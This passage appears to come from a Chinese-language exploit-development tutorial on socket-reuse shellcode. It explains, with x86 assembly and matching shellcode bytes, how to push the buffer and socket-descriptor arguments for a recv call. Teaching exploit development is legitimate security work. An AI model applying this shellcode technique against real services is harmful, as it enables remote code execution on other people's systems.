 为此，我们可以简单地将`ESP`推送到堆栈上，并将其弹出到`EBX`中，通过将`0x78`添加到`EBX`并将调整后的`EBX`推送到堆栈上，我们可以更新`the ESP`地址以指向`recv`缓冲区参数。然后，最后，我们将把当前保存文件描述符(在我们的例子中是 58)的值的`ESI`寄存器推到堆栈上，以完成`recv`函数。

```
**### recv - Buf & File Descriptor (ASM)**PUSH ESP            **; Push the current ESP onto the stack**
POP EBX             **; Pop the ESP in EBX register**
ADD EBX, 0x78       **; Adjust the ESP value by adding 0x78**
PUSH EBX            **; recv parameter - char *buf**
PUSH ESI            **; recv parameter - SOCKET s (File Descriptor)**
```

![](img/4750b04b08913e31bd2b6779e02da151.png)

```
**### recv - Buf & File Descriptor (Shellcode Cont'd)**\x54                  # PUSH ESP
\x58                  # POP EAX
\x66\x05\x88\x01      # ADD AX, 0x188 
\xFF\x30              # PUSH [EAX]
\x5E                  # POP ESI
\x83\xEC\x74          # SUB ESP, 0x74
\x33\xDB              # XOR EBX, EBX
\x53                  # PUSH EBX
\x80\xC7\x02          # ADD BH, 0x2
\x53                  # PUSH EBX **\x54                  # PUSH ESP
\x5B                  # POP EBX
\x83\xC3\x78          # ADD EBX, 0x78
\x53                  # PUSH EBX
\x56                  # PUSH ESI**
```
